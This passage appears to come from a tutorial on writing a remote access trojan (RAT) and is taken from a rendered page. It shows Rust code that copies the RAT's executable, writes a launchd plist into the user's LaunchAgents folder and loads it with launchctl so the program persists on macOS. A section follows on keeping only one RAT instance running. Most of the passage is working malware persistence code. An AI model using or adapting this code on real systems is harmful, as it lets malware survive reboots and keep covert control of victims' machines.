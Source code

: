 ```rust
        </dict>
    </plist>"#, executable.display());

    let mut launchd_file = match dirs::home_dir() {
        Some(home_dir) => home_dir,
        None => return Err(Error::Internal("Error getting home directory.".to_string())),
    };
    launchd_file
        .push("Library")
        .push("LaunchAgents")
        .push(LAUNCHD_FILE);

    fs::write(&launchd_file, launchd_file_content)?;

    Command::new("launchctl")
        .arg("load")
        .arg(launchd_file.display().to_string())
        .output()?;

    Ok(())
}
```


```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying launchd persistence");
    if let Ok(_) = install_launchd(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```


## Single instance

The problem with persistence is that depending on the technique used, multiple instances of our RAT may be launched in parallel.

For example, `crond` is instructed to execute our program every minute. As our program is designed to run for more than 1 minute, at `T+2min` there will be 3 instances of our RAT running.

As it would lead to weird bugs and unpredictable behavior, it's not desirable. Thus, we must ensure that at any given moment, only one instance of our RAT is running on a host system.
